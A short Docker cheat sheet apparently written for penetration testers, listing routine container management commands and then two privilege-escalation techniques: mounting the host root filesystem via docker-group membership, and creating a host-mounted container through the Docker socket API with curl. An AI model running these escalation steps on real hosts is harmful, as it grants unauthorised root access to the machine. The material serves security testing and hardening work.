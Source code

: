 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["docker", "privesc", "container", "escape", "dive"]
---
```


---
### Basic Commands

```bash
# Show all running processes
sudo docker ps -a
```

```bash
# Show all images
sudo docker images -a
```

```bash
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```bash
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```bash
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

### Explore Docker image

[dive](https://github.com/wagoodman/dive)

```bash
dive docker-archive://image.tar
```

### Abuse #1: Docker group

```bash
# List images
docker images
```

```bash
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_NAME> bash
```

```bash
# Check
ls /mnt/root
```

### Abuse #2: Docker API

```bash
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```bash
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```bash
# Start container
curl -s -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```bash
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

<br>